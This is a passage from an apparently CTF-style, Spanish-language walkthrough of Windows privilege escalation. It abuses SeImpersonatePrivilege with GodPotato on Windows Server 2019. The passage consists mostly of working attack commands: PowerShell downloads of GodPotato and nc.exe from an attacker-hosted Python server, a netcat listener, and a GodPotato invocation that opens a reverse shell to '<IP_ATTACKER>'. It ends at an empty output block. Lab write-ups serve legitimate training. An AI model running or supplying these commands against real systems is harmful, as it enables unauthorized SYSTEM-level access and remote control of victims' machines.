 Vemos una cosa bastante interesante en la siguiente linea:

```
SeImpersonatePrivilege  Suplantar a un cliente tras la autenticaci�n  Habilitada
```

Vamos a ver que version de `Windows` tenemos para saber que `exploit` podremos utilizar:

```powershell
ver
```

Info:

```
Microsoft Windows [Versi�n 10.0.17763.107]
```

Vemos que es un `Windows Server 2019` por lo que posiblemente no vaya el `exploit` llamado `JuicyPotato.exe`.

Vamos a descargarnos el siguiente `exploit` para aprovechar esta vulnerabilidad.

URL = [Download GodPotato-NET4.exe](https://github.com/BeichenDream/GodPotato/releases)

Nos vamos a pasar los `2` archivos tanto el `nc.exe` como el `GodPotato-NET4.exe` a la maquina victima en la siguiente ruta donde podemos escribir y ejecutar binarios.

```powershell
cd C:\Users\Public\Downloads
```

Ahora vamos a abrir un servidor de `python3` para pasarnos los archivos.

```shell
python3 -m http.server 8000
```

Y desde la maquina victima ejecutaremos lo siguiente:

```powershell
#Archivo GodPotato-NET4
powershell -c "(New-Object Net.WebClient).DownloadFile('http://<IP_ATTACKER>:8000/GodPotato-NET4.exe', 'C:\Users\Public\Downloads\GodPotato-NET4.exe')"
#Archivo Netcat
powershell -c "(New-Object Net.WebClient).DownloadFile('http://<IP_ATTACKER>:8000/nc.exe', 'C:\Users\Public\Downloads\nc.exe')"
```

Ahora nos pondremos a la escucha antes de ejecutar el comando:

```shell
nc -lvnp <PORT>
```

Ahora vamos a ejecutar en la maquina victima lo siguiente:

```powershell
GodPotato-NET4.exe -cmd "cmd /C nc.exe <IP_ATTACKER> <PORT> -e cmd"
```

Info:
